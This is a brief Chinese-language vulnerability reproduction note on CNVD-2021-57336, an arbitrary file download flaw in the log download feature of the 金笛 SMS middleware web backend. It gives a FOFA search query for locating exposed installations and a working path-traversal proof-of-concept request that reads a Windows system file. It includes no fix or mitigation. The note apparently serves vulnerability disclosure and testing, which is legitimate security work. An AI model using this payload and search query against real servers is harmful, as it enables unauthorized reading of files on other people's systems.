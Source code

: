# 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

```
金笛 短信中间件Web版
```

## FOFA

```
app="金笛短信中间件(WEB版)"
```

## 漏洞复现

登录页面

![image-20220525150803211](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251508287.png)

存在漏洞的位置为 日志下载

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251508351.png)

验证POC

```
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251508651.png)